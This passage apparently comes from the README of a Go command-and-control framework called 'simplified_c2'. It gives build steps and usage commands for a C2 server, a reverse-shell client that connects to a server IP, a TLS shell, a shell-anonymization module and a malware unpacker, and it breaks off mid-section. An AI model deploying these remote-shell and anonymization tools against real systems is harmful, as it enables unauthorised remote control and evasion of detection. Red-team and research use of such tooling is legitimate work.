 ## Installation

```bash
# Clone the repository
git clone https://github.com/your-username/simplified_c2.git

# Build the main C2 application
cd simplified_c2
go build -o c2 ./cmd/c2

# Build the secure shell executable
go build -o secure_shell ./cmd/secure_shell
```

## Usage

### Starting the C2 Server (Bind Shell)

```bash
./c2 --server --host 0.0.0.0 --port 8443 --protocol tcp --secure
```

### Connecting to the C2 Server (Reverse Shell)

```bash
./c2 --client --host <server-ip> --port 8443 --protocol tcp --secure
```

### Using the Secure Shell

```bash
./secure_shell --host <server-ip> --port 8443 --passphrase <your-passphrase> --tls
```

### Using Shell Anonymization

```bash
./c2 --anonymize --module shell_anon setup
```

### Unpacking Malware

```bash
./c2 --module unpacker unpack <pid> <output-path>
```

### Listing Available Modules

```bash
./c2 --list-modules
```

### Getting Module Information
